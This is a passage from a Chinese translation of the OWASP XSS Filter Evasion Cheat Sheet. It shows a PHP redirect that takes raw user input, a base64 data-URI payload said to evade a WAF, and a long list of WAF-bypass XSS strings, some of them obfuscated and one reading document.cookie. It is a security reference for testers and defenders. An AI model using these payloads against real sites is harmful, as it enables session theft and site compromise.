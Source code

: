 也：

```
..
header('Refresh: 0; URL='.$_GET['param']); 
...
```

- 此请求不会通过 WAF：

```
/?param=<javascript:alert(document.cookie>)
```

- 此请求将通过 WAF，并在某些浏览器中进行 XSS 攻击。

```
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

### XSS 的 WAF 绕过字符串[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#waf-bypass-strings-for-xss)

- `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
- `<Video> <source onerror = "javascript: alert (XSS)">`
- `<Input value = "XSS" type = text>`
- `<applet code="javascript:confirm(document.cookie);">`
- `<isindex x="javascript:" onmouseover="alert(XSS)">`
- `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
- `"><img src="x:x" onerror="alert(XSS)">`
- `"><iframe src="javascript:alert(XSS)">`
- `<object data="javascript:alert(XSS)">`
- `<isindex type=image src=1 onerror=alert(XSS)>`
- `<img src=x:alert(alt) onerror=eval(src) alt=0>`
- `<img src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
- `<iframe/src="data:text/html,<svg onload=alert(1)>">`
- `<meta content=" 1  ; JAVASCRIPT: alert(1)" http-equiv="refresh"/>`
- `<svg><script xlink:href=data:,window.open('https://www.google.com/')></script`
- `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
- `<iframe src=javascript:alert(document.location)>`
- `<form><a href="javascript:\u0061lert(1)">X`
- `</script><img/*%00/src="worksinchrome:prompt(1)"/%00*/onerror='eval(src)'>`
- `<style>//*{x:expression(alert(/xss/))}//<style></style>`
- 鼠标悬停
- `<img src="/" =_=" title="onerror='prompt(1)'">`
- `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=javascript:alert(1)>ClickMe`
- `<script x> alert(1) </script 1=2`
- `<form><button formaction=javascript:alert(1)>CLICKME`
- `<input/onmouseover="javaSCRIPT:confirm(1)"`
- `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`
- `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>`
